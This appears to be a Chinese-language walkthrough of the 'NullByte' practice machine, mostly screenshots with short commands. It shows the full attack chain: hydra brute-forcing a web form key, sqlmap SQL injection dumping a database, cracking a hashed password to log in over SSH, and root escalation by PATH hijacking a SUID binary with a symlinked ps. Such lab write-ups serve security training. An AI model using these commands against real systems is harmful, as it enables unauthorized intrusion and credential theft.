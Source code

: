 # NullByte

![image-20200623202132962](assets/NullByte.assets/image-20200623202132962.png)

![image-20200623202252351](assets/NullByte.assets/image-20200623202252351.png)

![image-20200623202923806](assets/NullByte.assets/image-20200623202923806.png)

777端口，浏览器一闪而过

bp抓包发现是ssh

![image-20200623203957063](assets/NullByte.assets/image-20200623203957063.png)

80端口

![image-20200623205040326](assets/NullByte.assets/image-20200623205040326.png)

![image-20200623211512809](assets/NullByte.assets/image-20200623211512809.png)

![image-20200623211544628](assets/NullByte.assets/image-20200623211544628.png)



![image-20200623205140672](assets/NullByte.assets/image-20200623205140672.png)

尝试了由这个关键词可以组合的目录，并没有新的信息

下载这个gif图片进行分析，并附加到利用cewl制作的字典中

![image-20200623213450820](assets/NullByte.assets/image-20200623213450820.png)

再利用这个自动对目录进行重新FUZZ

```bash
wfuzz -w wordlist.txt http://192.168.43.11/FUZZ
```

虽然没有fuzz出目录，但是我们注意到一组字符串。

![image-20200623213831433](assets/NullByte.assets/image-20200623213831433.png)

这个字符串是strings打出来的，但是并不是正常应该出现在图像文件字符。

这一点也同样可以用exiftool验证

![image-20200623220217741](assets/NullByte.assets/image-20200623220217741.png)

![image-20200623212914653](assets/NullByte.assets/image-20200623212914653.png)

尝试浏览

```bash
http://192.168.43.11/kzMb5nVYJw/
```

果然

![image-20200623214129680](assets/NullByte.assets/image-20200623214129680.png)

这是在提示我们用暴力进行测试

先抓包看一下

![image-20200623214325473](assets/NullByte.assets/image-20200623214325473.png)

错误会提示invalid key

![image-20200623214536349](assets/NullByte.assets/image-20200623214536349.png)

构建hydra 语句

```bash
hydra -l "" -P /usr/share/wordlists/rockyou.txt 192.168.43.11 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -I
```

![image-20200623221742834](assets/NullByte.assets/image-20200623221742834.png)

![image-20200623221933530](assets/NullByte.assets/image-20200623221933530.png)

抓一下包

![image-20200623222140045](assets/NullByte.assets/image-20200623222140045.png)

反复测试了几次可以输入的内容，回显都只有一种。

fuzz也没有打出其他内容，参考之前登录的时候说登录的form没有连接到mysql，那么这个form可能连接到mysql？

尝试sqlmay跑一下

```bash
sqlmay -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" --dbs
```

![image-20200623223000280](assets/NullByte.assets/image-20200623223000280.png)

果然存在注入，之前打出了phpmyadmin，先dump

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D phpmyadmin --dump --batch
```

都是空表，没有内容。再dump seth

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D seth --dump --batch
```

![image-20200623224153515](assets/NullByte.assets/image-20200623224153515.png)

```bash
ramses:YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE
```

解码

![image-20200623224347932](assets/NullByte.assets/image-20200623224347932.png)

```bash
c6d6bd7ebf806f43c76acc3681703b81
```

![image-20200623224709627](assets/NullByte.assets/image-20200623224709627.png)

![image-20200623224743950](assets/NullByte.assets/image-20200623224743950.png)

```bash
ramses:omega
```

我们之前打出777是ssh，尝试登录

![image-20200623224931488](assets/NullByte.assets/image-20200623224931488.png)

基础枚举，看来我们有一个suid文件

![image-20200623225817866](assets/NullByte.assets/image-20200623225817866.png)

![image-20200623225945387](assets/NullByte.assets/image-20200623225945387.png)

看上去这个程序应该是调用了ps

![image-20200623230215909](assets/NullByte.assets/image-20200623230215909.png)

我们可以尝试将ps替换成bash，并修改环境变量。从而欺骗procwatch

```bash
ln -s /bin/bash ps
export PATH=`pwd`:${PATH}
```

![image-20200623231924275](assets/NullByte.assets/image-20200623231924275.png)

![image-20200623231951589](assets/NullByte.assets/image-20200623231951589.png)

可以成功调用bash，但是用户并不是root

删除我们建立的伪造ps，重新执行procwatch查看一下，发现procwatch中ps中显示的shell是sh

![image-20200623232136292](assets/NullByte.assets/image-20200623232136292.png)

重新链接ps到sh

```bash
ln -s /bin/sh ps
export PATH=`pwd`:${PATH}
```

![image-20200623232305896](assets/NullByte.assets/image-20200623232305896.png)